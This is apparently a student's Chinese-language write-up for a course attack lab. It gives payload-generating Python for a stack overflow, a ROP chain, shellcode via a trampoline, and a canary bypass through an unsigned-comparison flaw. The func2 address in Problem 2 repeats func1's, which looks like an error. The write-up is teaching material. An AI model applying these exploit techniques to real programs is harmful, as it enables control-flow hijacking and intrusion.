



姓名： 赵敬谦学号： 2024201543
# Problem 1: 基础栈溢出分析
我要实现劫持程序控制流以执行 func1 的功能。通过反汇编分析发现，func 函数调用了不检查长度的 strcpy@plt。根据汇编指令 401246: lea -0x8(%rbp), %rax，可以确定输入缓冲区在栈上起始于 %rbp - 0x8 的位置。在 x86-64 架构下，栈帧的结构为：缓冲区（8字节）+ 保存的旧 %rbp（8字节）+ 返回地址。因此，覆盖返回地址所需的偏移量计算公式为：Offset = 8 (buffer) + 8 (saved rbp) = 16 bytes目标函数 func1 的入口地址为 0x401216。
解决方案：构造 16 字节的填充数据，后接小端序排列的 func1 地址。padding: 8 (buffer) + 8 (saved rbp) = 16 bytes
padding = b"A" * 16 

# func1 address: 0x401216 -> 转换成 8 字节小端序
target_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"

payload = padding + target_addr

with open("ans1.txt", "wb") as f:
    f.write(payload)

## Problem 2: ROP 攻击与寄存器传参分析
我要实现在执行 func2 的同时传递特定参数 0x3f8 的功能。由于该程序开启了 NX  保护，我无法在栈上执行代码，且 x86-64 约定通过 %rdi 寄存器传递第一个参数。因此，我需要寻找 ROP Gadget。通过反汇编发现 pop_rdi 函数中存在以下指令：4012c7: 5f (pop %rdi); 4012c8: c3 (ret)这允许我先将数据弹出到 %rdi，再返回到目标函数。溢出偏移量依然为 16 字节。解决方案：构造 ROP 链：填充 + pop_rdi 地址 + 参数值 + func2 地址。
padding = b"A" * 16
 #Gadget: pop rdi; ret at 0x4012c7
pop_rdi = b"\xc7\x12\x40\x00\x00\x00\x00\x00"
 #Argument: 0x3f8
arg1 = b"\xf8\x03\x00\x00\x00\x00\x00\x00"
#Target: func2 at 0x401216
func2_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"
payload = padding + pop_rdi + arg1 + func2_addr
with open("ans2.txt", "wb") as f:
    f.write(payload)

# Problem 3: 注入 Shellcode 与跳板技术分析
我要实现在 ASLR  环境下劫持程序执行 func1(0x72) 的功能。难点在于栈地址是动态的，我无法预知注入代码的绝对地址。代码中提供了一个跳板函数 jmp_xs (地址 0x401334)。该函数通过 40133c: mov 0x21cd(%rip), %rax 加载 saved_rsp，并通过 addq $0x10, -0x8(%rbp) 计算相对于原始栈顶的偏移，最后执行 jmp *%rax 跳转回我的 Payload。func 内部使用 memcpy 拷贝了 64 字节，缓冲区起始于 rbp-0x20。覆盖返回地址需要填充：Offset = 32 (buffer) + 8 (saved rbp) = 40 bytes解决方案：将自编写的机器码放在 Payload 开头，填充至 40 字节后覆盖返回地址为 jmp_xs。Pythonimport struct
func1_addr = 0x401216
jmp_xs_addr = 0x401334
#Shellcode: mov $0x72, %edi; movabs $0x401216, %rax; jmp *%rax
shellcode = b"\xbf\x72\x00\x00\x00" 
shellcode += b"\x48\xb8" + struct.pack("<Q", func1_addr)
shellcode += b"\xff\xe0"
padding = b'A' * (40 - len(shellcode))
payload = shellcode + padding + struct.pack("<Q", jmp_xs_addr)
with open("ans3.txt", "wb") as f:
    f.write(payload)

# Problem 4: Canary 防御与逻辑漏洞绕过分析
我要实现绕过 Canary (栈哨兵) 保护的功能。汇编显示程序在 136c 处通过 mov %fs:0x28, %rax 获取随机值并放置在 rbp-0x8。传统的溢出攻击会修改该值，触发 1419: call __stack_chk_fail@plt。然而，程序逻辑存在缺陷：在 13aa: cmp -0x10(%rbp), %eax 处，使用了无符号比较指令 jae。如果输入 -1（补码 0xFFFFFFFF），在无符号视角下它将大于阈值 0xFFFFFFFE，从而进入核心逻辑。
解决方案：不进行内存破坏，通过输入 -1 触发补码逻辑漏洞，使程序执行约 42 亿次循环后由于计数器归零而通过校验。
with open("ans4.txt", "w") as f:
    f.write("-1\n")
